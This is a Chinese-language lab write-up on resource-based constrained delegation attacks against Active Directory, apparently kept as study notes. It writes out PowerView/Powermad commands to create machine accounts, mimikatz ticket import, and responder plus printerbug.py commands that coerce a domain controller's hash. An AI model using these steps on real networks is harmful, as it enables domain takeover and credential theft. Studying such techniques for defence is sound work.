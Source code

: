 #  资源委派

  配置的高级功能  windows2012以上

攻击条件：A机器的msDS-AllowedToActOnBehalfOfOtherIdentity属性的    sid值对应B用户或者机器     这时候B就可以控制A。		msDS-AllowedToActOnBehalfOfOtherIdentity属性为ServiceA，也就允许ServiceA利用s4u2self协议代表其他用户身份来访问data的话，那我们就可以做到横向移动及提权等操作。

 在机器上操作         sid值都不同

![1733582509627](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942251.png)

  退域在加域。下面这种不符合资源约束委派（第一种）的攻击条件:

![1733582926038](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942252.png)

#### 利用

先看sid值是否相同（1），不同再看是否在ao组（2），最后再看（3）

资源约束委派利用分类：

1、通过管理主机加入域的用户拿下主机

2、已知Acount Operators组用户拿下主机

3、结合HTLM Relay攻击拿下主机（CVE-2019-1040）

#### 1 利用管理主机

条件：

1、允许创建机器账户

2、具有管理主机加入域的用户账户。也就是说sid值要相同，一个是被控机sid和目标机sid值相同，这样才能控制目标机

 前面翻车，换域，god.org 成功在sql机上查询被域用户创建的机器账户列表。条件是需要都是同一个sid值，查到后可以看当前被控机的用户可以通过sid资源委派还能控制哪些机器。

符合利用条件----查询被域用户创建的机器账户列表:：

![1733584843470](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942253.png)

  将test7用户加入到win8和Win7的sid控制，这里环境就是win7机器是test7用户 ，win8是datax用户，查询他俩的sid值相同，查询sid对应的用户为test7用户。两个机器都是用test7用户加入域。-----------重新梳理：win7-----test7机器（这里的机器是在域里面的机器名字）-----  test7用户加入域。     win2008(win8)-----datax机器--------test7用户加入域

满足了攻击条件，sid值相同，并且sid对应的用户为被控机用户。就可以借助被控机（win7）来控制（资源委派）另一个机器(win8)

本地是windows7-------xdpc(用户)----test7 （域内机器名）     win10-----xdpc(用户)------datax（域内机器名）

![1733585052719](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942254.png)

收集信息：

![1733644904364](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942255.png)

查找相同的sid用户-----xdpc：

![1733585149490](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942256.png)

环境问题，被控机不出网，还是在本地演示，就不在c2服务器上演示了，说明意思即可(信息收集就不演示了)。----    被控机为win10，sid符合当前攻击条件且被控机用户刚好也是sid值相同的用户：

​     	开始利用，3个方案 ：addcpmputer（需要明文）  bloodyad（需要明文）  												powermad(不需要明文)不过需要上传文件（推荐使用这个）。上传的是自己powershell的模块，用来创建一个新用户(xiaodiA)，然后再用另一个模板来获取新增用户的sid值，最后用命令来修改目标主机data的委派属性sid修改成新建用户的，修改成自己新建的用户来资源委派控制data机。也就是datax机器的msDS-AllowedToActOnBehalfOfOtherIdentity属性sid值修改成自己新建的用户sid值。 

这里为什么要新建一个用户来继而控制data机呢？为什么不直接用被控机test7来控制：													因为后续的攻击需要被控机的明文密码等条件，如果这里被控机明文密码不知道，那就无法进行后续，而新建的用户密码是知道的。

使用PowerMad工具创建机器账户（脚本工具先上传上去）新建用户成功：

![1733645688943](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942257.png)

获取新增的xiaodiA的sid值--powershell Import-Module .\PowerView.ps1;Get-NetComputer xiaodiA -Properties objectsid  ：

![1733646005585](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942258.png)

下来就是将xiaodiA的sid值委派给datax，这样xiaodiA就成datax的领导-----先看这里datax是没有设置“领导”：

![1733646113271](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942259.png)

修改datax的领导值为xiaodiA的sid值  (小翻车------这里需要将powershell提到管理员权限，否则执行不了会报错，下来就是执行成功)：

![1733646943159](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942260.png)

  用新建的(xiaodiA)连接被控机，连接工具为im工具箱里的py工具，还是socks代理，然后本地连接。下来就是利用xiaodiA生成连接票据，在导入，利用。

利用xiaodiA申请访问datax主机cifs服务票据------这里环境问题就在本地演示了-----正常应该socks代理然后py生成票据，将票据上传目标机后用mimikate导入利用：

![1733648960340](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942261.png)

导入票据到内存：

![1733649148733](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942262.png)

连接利用票据：-----------小插曲，弄错了搞反了：这里的win10被控机是datax机器，而目标Win7是test7用户，test计算机。所有前面一样，需要更改一些：

修改datax主机委派属性时候将目标改为test7（刚才是datax）,cifs服务票据里面也改test7为目标

![1733653257904](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942263.png)

![1733653314396](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942264.png)

然后还有注意都是管理员权限，powershell也是-------导入票据到内存（不需要在命令行中继续包含 `mimikatz` 命令，直接敲命令就行）--------连接利用票据：

![1733653450332](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942265.png)

这里连接也是在管理员的窗口运行（已踩坑）

![1733653571986](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942266.png)

#### 2 利用AO组

1h07第二种工具的环境配置：win7----webadmin（机器名----在域里面的名字）----webadmin用户加入域     win2008-----datax-----test7用户加入域 。

win10------webadmin------webadmin           windows7-------xdpc(用户)----test7

![1733653890223](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942267.png)



![1733656214337](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942268.png)



 条件：被控用户属于Acount Operators组的用户账户,因为这组里面的成员可修改域内任意主机的msDS-AllowedToActOnBehalfOfOtherIdentity属性。(除DC)，然后这里查询当前后发现被控机用户刚好在这组内。下面思路基本一样，添加xiaodiB用户，获取sid值。代理，获取票据，导入，建立连接

加ao组后：

![1733656511526](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942269.png)

将webadmin加入ao组前后前使用查看命令------判断有没有利用条件：

![1733656735966](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942270.png)

此时ao组成员webadmin刚好为被控机，所以可以利用，后续和前面一样，主要就是要有能创建用户的权限。能执行第一步：使用PowerMad工具创建机器账户powershell Import-Module .\Powermad.ps1;New-MachineAccount -MachineAccount serviceA -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force) ，后面一样

#### 3：HTLM Relay

结合HTLM Relay攻击。利用漏洞

1、能创建机器账户

2、目标开启打印机服务

 翻车~      kali监听，然后利用打印机漏洞让DC强制访问被控机，得到hash。后面利用hash生成票据。。。。

条件：

![1733661927163](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942271.png)

这里是使用ntlmrelayx工具responder -I eth1 -wd进行监听，但是需要代理，因为要在同一个网段里才能监听到，然后用  python printerbug.py xiaodi.local/webadmin:admin!@#45@(DCip)   (kali ip )  ,强制让kali访问监听的得到DC的hash，
